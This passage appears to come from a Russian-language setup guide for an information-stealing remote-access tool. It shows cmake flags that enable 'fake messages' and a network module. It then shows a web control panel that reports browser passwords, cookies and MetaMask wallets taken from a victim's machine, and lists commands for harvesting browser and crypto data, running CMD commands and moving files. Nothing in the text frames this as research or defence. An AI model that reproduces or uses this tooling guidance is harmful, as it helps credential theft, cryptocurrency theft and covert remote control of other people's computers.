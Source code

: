 ### 7.2 Включение поддельных сообщений при сборке
```bash
# При сборке добавьте флаг:
cmake .. -DCMAKE_BUILD_TYPE=Release \
         -DENABLE_FAKE_MESSAGES=ON \
         -DENABLE_NETWORK_MODULE=ON \
         # ... другие флаги
```

---

## 📊 Часть 8: Мониторинг подключений

### 8.1 Что вы увидите при подключении агента
```
В веб-панели http://localhost:8000:

📱 Новое подключение:
   - IP адрес: 192.168.1.105
   - Имя компьютера: DESKTOP-ABC123
   - Пользователь: John_Smith
   - Операционная система: Windows 10 Pro
   - Время подключения: 2024-05-30 15:42:13

📊 Системная информация:
   - Процессор: Intel Core i5-8400
   - Память: 8 GB
   - Диски: C:\ (500 GB), D:\ (1 TB)
   - Антивирус: Windows Defender

🔍 Собранные данные:
   - Пароли браузеров: 47 записей
   - Cookie файлы: 1,250 записей  
   - Криптокошельки: MetaMask найден
   - История браузера: 5 дней
   - Закладки: 89 записей
```

### 8.2 Команды для управления агентом
```
Через веб-панель можете отправить команды:

📋 Информационные:
   - system_info - подробная информация о системе
   - network_info - сетевые подключения
   - process_list - список процессов
   - installed_software - установленные программы

💾 Сбор данных:
   - collect_browser_data - собрать данные браузеров
   - collect_crypto_data - найти криптокошельки
   - collect_files - найти интересные файлы
   - take_screenshot - сделать скриншот

🎮 Управление:
   - execute_command - выполнить команду CMD
   - download_file - скачать файл с компьютера
   - upload_file - загрузить файл на компьютер
   - restart_agent - перезапустить агент
```

---